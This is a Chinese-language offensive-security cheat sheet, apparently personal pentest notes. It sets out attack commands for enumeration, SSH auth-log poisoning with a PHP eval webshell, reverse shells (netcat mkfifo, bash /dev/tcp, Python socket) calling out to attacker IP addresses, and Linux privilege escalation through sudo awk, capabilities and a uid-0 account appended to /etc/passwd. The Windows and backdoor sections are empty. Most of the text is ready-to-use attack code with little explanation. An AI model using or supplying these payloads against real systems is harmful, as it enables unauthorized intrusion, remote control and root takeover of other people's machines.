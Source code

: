 ### 收集信息

###### enum4linux

```
用于枚举Windows和Samba主机中的数据。
```











### GET-shell



#### ssh日志get-shell

```
直接尝试登陆
ssh '<?php @eval($_REQUEST['cmd']);?>'@ip

这里输错几次密码 同时，这段一句话木马也会留在/var/log/auth.log里，如果没有被转译的话

然后用蚁剑连接
```



#### 反弹shell

这里写的是攻击机ip

###### netcat反弹

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.36.101.179 443 >/tmp/f");?>

```

###### bash反弹

```
bash -i >& /dev/tcp/192.168.1.106/8888 0>1&
bash -i >& /dev/tcp/192.168.1.106/8888 0>1& | bash
```

###### python反弹

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.151.183",1992));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```



### 提权

#### linux

基本上先看`sudo -l`

看看有哪些权限

###### python升级tty shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```



###### awk提权

```
sudo awk 'BEGIN {system("/bin/bash")}'
```



###### capabilities提权

```
CAP_DAC_READ_SEARCH 忽略文件读及目录搜索的 DAC 访问限制

使用getcap查看权限，如：tar拥有权限，可以打包后，再解压文件，实现越权读取
```

###### /etc/passwd提权

构造一个用户 uid设置为0 因为root的uid为0

```
#利用openssl生成加密的密码, 语法：openssl passwd-1-salt[salt value]password
openssl passwd -1 -salt user3 pass123
 
#mkpasswd类似于openssl passwd，它将生成指定密码字符串的哈希值。
mkpasswd -m SHA-512 pass
 
#利用python中的crypt库生成
python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'
 
#利用Perl和crypt来使用salt值为我们的密码生成哈希值
perl -le 'print crypt("test","addedsalt")'
这里把test转换为密码
 
#php语言
php -r "print(crypt('aarti','123') . " ");"


echo的第一个是自己设置的用户名 冒号后面的是生成的哈希密码
echo "test:adMpHktIn0tR2:0:0:root:/root:/bin/bash" >>/etc/passwd

```



#### windows

### 后门
